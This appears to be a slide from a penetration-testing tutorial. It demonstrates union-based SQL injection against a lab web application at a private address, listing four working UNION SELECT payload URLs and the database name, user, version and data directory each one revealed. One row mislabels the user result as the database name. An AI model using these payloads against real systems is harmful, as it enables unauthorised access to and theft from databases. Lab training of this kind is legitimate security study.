

# Union-Based SQL Injection
OK its 4 columns, lets try unioning with other tables.... but we need to find the tables and other info.... like:
database(), user(), @@version,@@datadir

| http://192.168.43.130/cat.php?id=1 UNION SELECT 1, database(), 2, 3 | reveals database name == photoblog |
| --- | --- |
| http://192.168.43.130/cat.php?id=1 UNION SELECT 1, user(), 2, 3 | reveals database name == pentesterlab@localhost |
| http://192.168.43.130/cat.php?id=1 UNION SELECT 1, @@version, 2, 3 | reveals db version == 5.1.63-0+squeeze1 |
| http://192.168.43.130/cat.php?id=1 UNION SELECT 1, @@datadir, 2, 3 | reveals the DB is stored in /var/lib/mysql/ |